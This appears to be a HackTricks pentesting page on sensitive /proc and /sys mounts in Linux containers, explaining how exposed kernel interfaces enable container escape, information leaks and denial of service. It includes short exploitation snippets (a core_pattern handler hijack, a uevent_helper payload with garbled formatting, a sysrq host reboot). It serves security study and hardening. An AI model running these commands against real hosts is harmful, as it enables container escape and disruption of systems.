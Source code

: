 # Sensitive Mounts

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

<figure><img src="../../../..https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

The exposure of `/proc` and `/sys` without proper namespace isolation introduces significant security risks, including attack surface enlargement and information disclosure. These directories contain sensitive files that, if misconfigured or accessed by an unauthorized user, can lead to container escape, host modification, or provide information aiding further attacks. For instance, incorrectly mounting `-v /proc:/host/proc` can bypass AppArmor protection due to its path-based nature, leaving `/host/proc` unprotected.

**You can find further details of each potential vuln in** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Vulnerabilities

### `/proc/sys`

This directory permits access to modify kernel variables, usually via `sysctl(2)`, and contains several subdirectories of concern:

#### **`/proc/sys/kernel/core_pattern`**

* Described in [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Allows defining a program to execute on core-file generation with the first 128 bytes as arguments. This can lead to code execution if the file begins with a pipe `|`.
*   **Testing and Exploitation Example**:

    ```bash
    [ -w /proc/sys/kernel/core_pattern ] && echo Yes # Test write access
    cd /proc/sys/kernel
    echo "|$overlay/shell.sh" > core_pattern # Set custom handler
    sleep 5 && ./crash & # Trigger handler
    ```

#### **`/proc/sys/kernel/modprobe`**

* Detailed in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Contains the path to the kernel module loader, invoked for loading kernel modules.
*   **Checking Access Example**:

    ```bash
    ls -l $(cat /proc/sys/kernel/modprobe) # Check access to modprobe
    ```

#### **`/proc/sys/vm/panic_on_oom`**

* Referenced in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* A global flag that controls whether the kernel panics or invokes the OOM killer when an OOM condition occurs.

#### **`/proc/sys/fs`**

* As per [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), contains options and information about the file system.
* Write access can enable various denial-of-service attacks against the host.

#### **`/proc/sys/fs/binfmt_misc`**

* Allows registering interpreters for non-native binary formats based on their magic number.
* Can lead to privilege escalation or root shell access if `/proc/sys/fs/binfmt_misc/register` is writable.
* Relevant exploit and explanation:
  * [Poor man's rootkit via binfmt\_misc](https://github.com/toffan/binfmt\_misc)
  * In-depth tutorial: [Video link](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Others in `/proc`

#### **`/proc/config.gz`**

* May reveal the kernel configuration if `CONFIG_IKCONFIG_PROC` is enabled.
* Useful for attackers to identify vulnerabilities in the running kernel.

#### **`/proc/sysrq-trigger`**

* Allows invoking Sysrq commands, potentially causing immediate system reboots or other critical actions.
*   **Rebooting Host Example**:

    ```bash
    echo b > /proc/sysrq-trigger # Reboots the host
    ```

#### **`/proc/kmsg`**

* Exposes kernel ring buffer messages.
* Can aid in kernel exploits, address leaks, and provide sensitive system information.

#### **`/proc/kallsyms`**

* Lists kernel exported symbols and their addresses.
* Essential for kernel exploit development, especially for overcoming KASLR.
* Address information is restricted with `kptr_restrict` set to `1` or `2`.
* Details in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Interfaces with the kernel memory device `/dev/mem`.
* Historically vulnerable to privilege escalation attacks.
* More on [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Represents the system's physical memory in ELF core format.
* Reading can leak host system and other containers' memory contents.
* Large file size can lead to reading issues or software crashes.
* Detailed usage in [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Alternate interface for `/dev/kmem`, representing kernel virtual memory.
* Allows reading and writing, hence direct modification of kernel memory.

#### **`/proc/mem`**

* Alternate interface for `/dev/mem`, representing physical memory.
* Allows reading and writing, modification of all memory requires resolving virtual to physical addresses.

#### **`/proc/sched_debug`**

* Returns process scheduling information, bypassing PID namespace protections.
* Exposes process names, IDs, and cgroup identifiers.

#### **`/proc/[pid]/mountinfo`**

* Provides information about mount points in the process's mount namespace.
* Exposes the location of the container `rootfs` or image.

### `/sys` Vulnerabilities

#### **`/sys/kernel/uevent_helper`**

* Used for handling kernel device `uevents`.
* Writing to `/sys/kernel/uevent_helper` can execute arbitrary scripts upon `uevent` triggers.
*   **Example for Exploitation**: %%%bash

    ### Creates a payload

    echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

    ### Finds host path from OverlayFS mount for container

    host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

    ### Sets uevent\_helper to malicious helper

    echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

    ### Triggers a uevent

    echo change > /sys/class/mem/null/uevent

    ### Reads the output

    cat /output %%%

#### **`/sys/class/thermal`**

* Controls temperature settings, potentially causing DoS attacks or physical damage.

#### **`/sys/kernel/vmcoreinfo`**

* Leaks kernel addresses, potentially compromising KASLR.

#### **`/sys/kernel/security`**

* Houses `securityfs` interface, allowing configuration of Linux Security Modules like AppArmor.
* Access might enable a container to disable its MAC system.

#### **`/sys/firmware/efi/vars` and `/sys/firmware/efi/efivars`**

* Exposes interfaces for interacting with EFI variables in NVRAM.
* Misconfiguration or exploitation can lead to bricked laptops or unbootable host machines.

#### **`/sys/kernel/debug`**

* `debugfs` offers a "no rules" debugging interface to the kernel.
* History of security issues due to its unrestricted nature.

### References

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../..https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
